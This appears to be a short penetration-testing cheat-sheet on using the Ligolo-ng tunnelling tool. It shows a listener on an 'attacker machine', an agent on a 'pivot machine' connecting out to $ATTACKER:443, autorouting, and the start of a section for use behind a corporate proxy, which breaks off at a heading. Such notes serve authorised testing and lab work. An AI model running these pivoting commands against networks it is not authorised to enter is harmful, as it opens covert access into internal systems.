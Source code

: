 # Ligolo-ng 

## Github repo: https://github.com/nicocha30/ligolo-ng

## Precompiled Binaries: https://github.com/nicocha30/ligolo-ng/releases

## OS

1) Linux

2) Windows

3) MacOS

## Simple Tunneling

### 1) On the attacker machine, start a listener

##### Automatically request LetsEncrypt certificates or use self-signed certificates

    sudo ./proxy [-autocert | -selfcert] -laddr 0.0.0.0:443

### 2) On the pivot machine, start the agent

    ./agent -connect $ATTACKER:443 [-ignore-cert]

Then, on the server select the opened session and run the autoroute to setup everything automatically. You will have to chose which routes to tunnel, and so on:

    ligolo-ng » session
    [Agent : $SESSION] » autoroute

It is then possible to use all your tools without Proxychains or anything else. Everything will be routed through the tun interface.

## Behind a proxy

In case the client is behind a proxy (for example, a corporate proxy), it can be passed to the client. In this case, the WebSocket mode must be used.

### 1) On the attacker machine, start the listener with HTTPS

##### Automatically request LetsEncrypt certificates or use self-signed certificates
  
    ./proxy [-autocert | -selfcert] -laddr https://0.0.0.0:443

### 2) On the pivot machine, start the agent and specify the proxy address
